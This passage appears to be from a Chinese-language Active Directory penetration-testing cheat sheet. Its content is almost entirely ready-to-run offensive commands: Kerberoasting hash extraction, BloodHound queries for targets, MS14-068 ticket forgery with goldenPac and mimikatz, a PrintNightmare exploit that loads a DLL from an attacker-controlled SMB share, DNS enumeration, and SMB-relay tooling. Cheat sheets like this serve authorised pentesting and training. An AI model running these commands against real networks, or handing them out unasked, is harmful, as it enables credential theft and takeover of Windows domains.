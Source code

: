 ### Kerberoasting攻击

#### 获取hash

```
GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>

Rubeus kerberoast
```

#### 查找 kerberoastable 账号

```
Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName

MATCH (u:User {hasspn:true}) RETURN u

MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
```

### MS14-068

FindSMB2UPTime.py

```
rpcclient $> lookupnames <name>

wmic useraccount get name,sid

auxiliary/admin/kerberos/ms14_068_kerberos_checksum
goldenPac.py -dc-ip <dc_ip> <domain>/<user>:'<password>'@<target>
kerberos::ptc "<ticket>"
```

### PrintNightmare

```
CVE-2021-1675.py <domain>/<user>:<password>@<target> '\\<smb_server_ip>\<share>\inject.dll'
```

### 枚举 DNS 服务器

```
dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query <dc_ip>
```

# 7.relay/poisoning攻击

### 扫描没开启SMB签名的机器

```
nmap -Pn -sS -T4 --open --script smb-security-mode -p445 ADDRESS/MASK

use exploit/windows/smb/smb_relay

cme smb $hosts --gen-relay-list relay.txt
```
